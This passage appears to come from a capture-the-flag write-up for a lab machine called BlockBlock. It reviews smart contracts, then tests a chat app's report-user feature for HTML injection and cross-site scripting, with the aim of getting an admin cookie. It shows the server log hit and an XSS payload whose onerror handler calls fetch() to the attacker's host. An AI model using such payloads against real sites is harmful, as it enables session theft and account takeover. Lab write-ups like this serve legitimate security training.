 ```

    struct Message {
        string content;
        string sender;
        uint256 timestamp;
    }

```

There are functions to get messages by user in different ways. Nothing too interesting here.

#### Attacks

At this point, I don’t see any vulnerabilities in the contracts. The only slightly insecure thing is that the passwords seem to be stored in plaintext.

I could connect to the blockchain and create instances of these contracts, or find the one used by the site, but I don’t have any authentication information yet.

## Shell as keira

### Get Admin Cookie

#### HTML Injection POC

In the chat, there’s a button to report a user:

![image-20250324121519462](/img/image-20250324121519462.png)

I’ll try sending an HTML payload to see if it gets rendered anywhere downstream:

![image-20250324121616459](/img/image-20250324121616459.png)

I’ll send this, and a few seconds later there’s a hit on my Python webserver from BlockBlock:

```
10.10.11.43 - - [24/Mar/2025 16:17:29] code 404, message File not found
10.10.11.43 - - [24/Mar/2025 16:17:29] "GET /img.png HTTP/1.1" 404 -

```

That means my message was presented without sanitization to the admin and loaded as HTML.

#### XSS POC

I’ll update this payload to try for cross-site scripting (XSS) by making the `src` invalid and setting an `onerror` with some JavaScript:

```

<img src="x" onerror="fetch('http://10.10.14.6/xss')" />

```

Send this does result in a fetch:
